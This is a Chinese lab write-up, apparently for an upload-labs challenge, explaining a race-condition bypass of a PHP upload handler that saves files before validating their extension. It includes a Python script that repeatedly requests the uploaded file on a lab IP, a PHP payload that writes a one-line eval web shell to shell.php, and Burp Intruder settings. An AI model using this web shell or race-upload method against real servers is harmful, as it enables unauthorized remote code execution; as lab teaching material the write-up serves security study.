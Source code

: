         if(move_uploaded_file($temp_file, $upload_file)){
            if(in_array($file_ext,$ext_arr)){
                 $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
                 rename($upload_file, $img_path);
                 $is_upload = true;
            }else{
                $msg = "只允许上传.jpg|.png|.gif类型文件！";
                unlink($upload_file);
            }
        }else{
            $msg = '上传出错！';
        }
    }
    
        

其实这个代码都没啥大问题，执行下来都是OK的，但是这里是这样操作的，先通过move\_uploaded\_file把文件保存了，然后再去判断后缀名是否合法，合法就重命名，如果不合法再删除。重是重点在于，在多线程情况下，就有可能出现还没处理完，我们就访问了原文件，这样就会导致被绕过防护。下面是我随便找的之前的某一关，很明显看到之前代码是先改名，再移动保存。所以可以用条件竞争打他个措手不及，使得文件保存了但是没能及时处理。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201220182824705.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1NTg0MTU5%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

那么怎么利用条件竞争呢？

使用竞争条件上传，用burp一直上传文件，用python脚本一直访问临时文件，临时文件内容为我们写入一句话到它的目录。

其中python代码如下：

    import requests
    def main():
        i=0
        while 1:
            try:
                print(i,end='\r')
                test = requests.get("http://192.168.44.129:9096/upload/upload/success.php")         //写入上传位置路径地址
                if "260ca9dd8a4577fc00b7bd5810298076" in test.text:
                    print("OK")
                    break
            except Exception as e:
                pass
            i+=1
    if __name__ == '__main__':
        main()
    
        

上传文件写入代码如下：

    <?PHP
     
    echo md5(success);
     
    fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST[123])?>');
     
    ?>
    
        

用burpsuit进行抓包，清除掉payload位置。并且将payload选择no payload，将负载调成500。设置好后就可以开始了。
